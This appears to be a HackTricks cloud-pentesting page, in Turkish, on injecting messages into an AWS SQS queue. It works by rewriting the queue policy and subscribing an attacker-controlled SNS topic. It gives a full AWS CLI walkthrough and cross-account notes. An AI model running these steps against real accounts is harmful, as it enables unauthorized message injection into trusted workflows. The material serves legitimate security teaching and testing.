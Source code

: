 # AWS – SQS Cross-/Same-Account Injection via SNS Subscription + Queue Policy

{{#include ../../../../banners/hacktricks-training.md}}

## Açıklama

Saldırgan kontrolündeki bir SNS topic'in kurban SQS kuyruğuna mesaj yayımlamasına izin vermek için SQS queue resource policy kötüye kullanılır. Aynı hesapta, bir SNS topic'e yapılan SQS subscription otomatik olarak onaylanır; hesaplar arası durumda ise kuyruktan SubscriptionConfirmation token'ını okuyup ConfirmSubscription çağrısı yapmanız gerekir. Bu, aşağı akıştaki tüketicilerin istemedikleri mesaj enjeksiyonunu ve bu mesajlara varsayılan olarak güvenmelerini mümkün kılar.

### Gereksinimler
- Hedef SQS queue resource policy'yi değiştirme yeteneği: kurban kuyruk üzerinde `sqs:SetQueueAttributes`.
- Saldırgan kontrolündeki bir SNS topic oluşturma/yayınlama yeteneği: saldırgan hesabı/topic üzerinde `sns:CreateTopic`, `sns:Publish`, ve `sns:Subscribe`.
- Hesaplar arası (cross-account) yalnızca: doğrulama token'ını okumak ve `sns:ConfirmSubscription` çağrısı yapmak için kurban kuyruk üzerinde geçici `sqs:ReceiveMessage`.

### Aynı hesapta istismar
```bash
REGION=us-east-1
# 1) Create victim queue and capture URL/ARN
Q_URL=$(aws sqs create-queue --queue-name ht-victim-q --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Create attacker SNS topic
TOPIC_ARN=$(aws sns create-topic --name ht-attacker-topic --region $REGION --query TopicArn --output text)

# 3) Allow that SNS topic to publish to the queue (queue resource policy)
cat > /tmp/ht-sqs-sns-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowSNSTopicPublish","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"SQS:SendMessage","Resource":"REPLACE_QUEUE_ARN","Condition":{"StringEquals":{"aws:SourceArn":"REPLACE_TOPIC_ARN"}}}]}
JSON
sed -i.bak "s#REPLACE_QUEUE_ARN#$Q_ARN#g; s#REPLACE_TOPIC_ARN#$TOPIC_ARN#g" /tmp/ht-sqs-sns-policy.json
# Provide the attribute as a JSON map so quoting works reliably
cat > /tmp/ht-attrs.json <<JSON
{
"Policy": "REPLACE_POLICY_JSON"
}
JSON
# Embed the policy file contents as a JSON string
POL_ESC=$(jq -Rs . /tmp/ht-sqs-sns-policy.json)
sed -i.bak "s#\"REPLACE_POLICY_JSON\"#$POL_ESC#g" /tmp/ht-attrs.json
aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes file:///tmp/ht-attrs.json

# 4) Subscribe the queue to the topic (auto-confirms same-account)
aws sns subscribe --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --region $REGION

# 5) Publish and verify injection
aws sns publish --topic-arn "$TOPIC_ARN" --message {pwn:sns->sqs} --region $REGION
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --attribute-names All --message-attribute-names All
```
### Hesaplar arası notlar
- Yukarıdaki kuyruk politikası yabancı `TOPIC_ARN` (saldırgan hesabı) için izin vermelidir.
- Abonelikler otomatik onaylanmaz. Kurban kuyruğunda kendinize geçici `sqs:ReceiveMessage` izni verin, `SubscriptionConfirmation` mesajını okuyun ve ardından `Token` ile `sns confirm-subscription` çağrısı yapın.

### Etki
**Potansiyel Etki**: SNS aracılığıyla güvenilen bir SQS kuyruğuna sürekli istenmeyen mesaj enjeksiyonu; bu, istenmeyen işlemlere, veri kirliliğine veya iş akışı suistimaline yol açabilir.

{{#include ../../../../banners/hacktricks-training.md}}
